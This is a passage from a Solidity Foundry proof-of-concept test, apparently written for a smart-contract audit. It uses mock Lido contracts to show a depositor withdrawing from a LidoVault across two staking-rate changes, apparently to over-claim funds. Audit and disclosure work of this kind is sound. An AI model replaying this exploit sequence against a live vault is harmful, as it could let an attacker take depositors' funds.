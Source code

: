 ```solidity
contract PoC is Test {
    MockLido lido;
    MockLidoWithdrawalQueueERC721 lidoWithdrawalQueueERC721;

    VaultFactory factory;
    LidoVault vault;

    address fixedDepositor = makeAddr('fixedDepositor');
    address alice = makeAddr('alice');
    address bob = makeAddr('bob');
    address feeReceiver = makeAddr('feeReceiver');

    uint256 protocolFeeBps = 2_000;
    uint256 fixedCap = 100 ether;
    uint256 variableCap = 10 ether;

    function setUp() public {
        lido = new MockLido();
        lidoWithdrawalQueueERC721 = new MockLidoWithdrawalQueueERC721(address(lido));

        factory = new VaultFactory(protocolFeeBps, 0);
        factory.setProtocolFeeReceiver(feeReceiver);

        factory.createVault(fixedCap, 1 days, variableCap);
        (,address addr) = factory.vaultInfo(1);
        vault = LidoVault(payable(addr));

        vault.setLidoInfo(address(lido), address(lidoWithdrawalQueueERC721));

        vm.deal(address(lidoWithdrawalQueueERC721), 1000 ether);

        vm.deal(fixedDepositor, fixedCap);

        vm.prank(fixedDepositor);
        vault.deposit{value: fixedCap}(0);
    }

    function testFirstVulnerabilityPath() public {
        vm.deal(alice, variableCap);

        vm.prank(alice);
        vault.deposit{value: alice.balance}(1);

        lido.setRate(1.1e27);

        vm.startPrank(alice);
        vault.withdraw(1);
        vault.finalizeVaultOngoingVariableWithdrawals();
        vm.stopPrank();

        console.log("Alice's balance after first claim: %e", alice.balance);

        skip(1 days + 1);

        lido.setRate(1.21e27);

        vm.startPrank(alice);
        vault.withdraw(1);
        vault.finalizeVaultEndedWithdrawals(1);
        vm.stopPrank();

        console.log("Alice's balance at the end: %e", alice.balance);        

```